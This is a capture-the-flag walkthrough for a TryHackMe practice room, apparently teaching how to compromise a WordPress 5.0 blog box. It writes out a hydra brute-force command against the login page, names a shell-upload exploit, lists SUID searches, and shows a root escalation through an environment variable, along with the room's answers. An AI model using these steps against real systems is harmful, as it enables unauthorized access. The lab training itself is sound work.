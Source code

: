 ```yaml
---
description: Walkthrough (Medium)
---
```


# Blog 🟠🟠

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

[https://tryhackme.com/r/room/blog](https://tryhackme.com/r/room/blog)

Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

In order to get the blog to work with AWS, you'll need to add MACHINE\_IP blog.thm to your /etc/hosts file.

### Q ) What CMS was Billy using?

\-> wordpress

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

### Q ) What version of the above CMS was being used?

\-> 5.0

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

* After surfing the webpages got a user Karen Wheelar nickname : kwheel
* Found login page /wp-login.php ( lets hydra it)

{% code overflow="wrap" %}
```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt 10.10.11.47 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```
{% endcode %}

* login: kwheel password: \*\*\*\*\*\*\*\*
* After google searching **wordpress 5.0 exploit** got **WordPress Crop-image Shell Upload**

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

* got user bjoel and there was a file user.txt but its a rabbit hole
* No flag files were found in the begining so just  **find root acces files with SUID**

```bash
find / -user root -perm /4000 2>/dev/null

               OR
               
find / -perm -u=s -type f 2>/dev/null 
```

* &#x20;**find root acces files with SUID**

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

* Found a intrsting file Checker&#x20;

```bash
ltrace /usr/sbin/checker
```

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

* If we run it prints  " Not an Admin "
* If we see the code carefully, its checking environment variable admin true or false
* If it is false prints not admin, if set true then shell will be given

```bash
export admin=1
/usr/sbin/checker
```

* Now we are root, perform any task

### Q ) root.txt&#x20;

```basic
cat /root/root.txt
```

### Q ) user.txt

```bash
find / 2>/dev/null | grep user.txt
```

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

### Q ) Where was user.txt found?

\-> /media/usb
